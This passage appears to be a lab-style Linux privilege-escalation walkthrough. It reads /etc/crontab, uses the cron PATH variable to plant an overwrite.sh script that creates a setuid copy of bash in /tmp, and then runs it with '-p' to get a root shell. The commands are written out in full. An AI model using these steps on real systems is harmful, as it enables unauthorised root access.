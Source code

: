 ```bash

cat /etc/crontab

```

![image](https://user-images.githubusercontent.com/96658935/147714691-fbb5c8bb-f763-4ff5-b694-afa37029c4b6.png)

From the output, notice the value of the “PATH” variable



```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```bash
chmod +x /home/user/overwrite.sh
```


```bash
/tmp/bash -p

```


![image](https://user-images.githubusercontent.com/96658935/147714744-467b68ab-b4a8-455f-8580-2f717f7cbab8.png)
